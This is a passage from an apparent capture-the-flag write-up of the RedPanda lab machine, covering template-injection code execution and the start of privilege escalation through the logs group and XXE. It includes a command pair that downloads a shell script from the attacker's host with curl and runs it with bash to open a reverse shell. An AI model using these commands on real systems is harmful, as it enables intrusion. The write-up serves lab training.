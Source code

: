 From this, I will get a hit back on my Python server:

```
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.227.207 - - [10/May/2023 09:43:33] code 404, message File not found
10.129.227.207 - - [10/May/2023 09:43:33] "GET /sstirce HTTP/1.1" 404 -
```

Now, we can easily get a reverse shell. We can do so by first downloading the shell on the machine, then executing it using `bash`:

```bash
curl 10.10.14.13/shell.sh -o /tmp/rev
bash /tmp/rev
```

Our listener port would catch a shell:

<figure><img src="../../../.gitbook/assets/image (28) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Identifying XXE Injection

The first thing I noticed was we are part of the `logs` group. We can use the `find` command to see all files owned by the user:

<pre class="language-bash"><code class="lang-bash"><strong>$ find / -group logs 2> /dev/null
</strong># truncated output
/credits
/credits/damian_creds.xml
/credits/woodenk_creds.xml
/opt/panda_search/redpanda.log
</code></pre>

The `/credits` directory contains XML files with the number of views that each Artist got for their respective images. However, the `/opt` directory has some interesting stuff.&#x20;

```
woodenk@redpanda:/opt$ ll
total 24
drwxr-xr-x  5 root root 4096 Jun 23  2022 ./
drwxr-xr-x 20 root root 4096 Jun 23  2022 ../
-rwxr-xr-x  1 root root  462 Jun 23  2022 cleanup.sh*
drwxr-xr-x  3 root root 4096 Jun 14  2022 credit-score/
drwxr-xr-x  6 root root 4096 Jun 14  2022 maven/
drwxrwxr-x  5 root root 4096 Jun 14  2022 panda_search/
```

